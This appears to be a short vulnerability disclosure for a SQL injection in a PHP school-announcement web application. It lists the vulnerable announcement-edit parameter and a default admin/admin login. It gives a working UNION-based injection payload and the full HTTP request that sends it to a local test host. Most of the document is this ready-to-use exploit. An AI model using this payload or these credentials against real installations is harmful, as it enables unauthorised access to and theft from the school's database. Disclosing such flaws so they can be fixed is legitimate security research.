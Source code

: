 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: z1pwn

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/announcement/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/announcement/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload: /activity/admin/modules/announcement/index.php?view=edit&id=-201900050%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /activity/admin/modules/announcement/index.php?view=edit&id=-201900050%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183559590-1a6fd71b-79d2-4a3c-a6a5-34419167cf27.png)

